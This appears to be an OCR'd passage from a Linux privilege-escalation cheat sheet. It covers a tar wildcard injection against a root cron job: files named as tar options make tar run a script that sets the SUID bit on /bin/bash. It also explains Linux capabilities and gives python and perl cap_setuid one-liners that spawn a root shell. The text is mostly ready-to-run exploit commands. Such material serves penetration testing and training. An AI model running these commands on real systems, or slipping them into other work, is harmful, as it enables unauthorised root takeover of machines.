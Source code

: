 Privilege Escalation via Tar Cron Job

```ps1
cat /etc/crontab
Output Example: */1 *   * * *   root tar -zcf /var/backups/html.tgz /var/www/html/*
cd /var/www/html/
echo "chmod +s /bin/bash" > priv.sh
echo "" > "--checkpoint-action=exec=bash priv.sh
echo "" > --checkpoint=1
tar cf archive.tar *

// If it does not work , replace "bash" with "sh"
```


## __Capabilities__

Linux capabilities are special attributes in the Linux kernel that grant processes and binary executables specific privileges that are normally reserved for processes whose effective user ID is 0 (The root user, and only the root user, has UID 0).

Capabilities are those permissions that divide the privileges of kernel user or kernel level programs into small pieces so that a process can be allowed sufficient power to perform specific privileged tasks.

Essentially, the goal of capabilities is to divide the power of 'root' into specific privileges, so that if a process or binary that has one or more capability is exploited, the potential damage is limited when compared to the same process running as root.

Capabilities can be set on processes and executable files. A process resulting from the execution of a file can gain the capabilities of that file.

- Python
- Perl
- Tar
- OpenSSL

Python

```ps1
getcap -r / 2>/dev/null         
/usr/bin/python2.6 = cap_setuid+ep
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id && whoami

OR

getcap -r / 2>/dev/null  
/usr/bin/python3 = cap_setuid+ep
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
id && whoami
```

Perl

```ps1
getcap -r / 2>/dev/null         
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
id && whoami
```
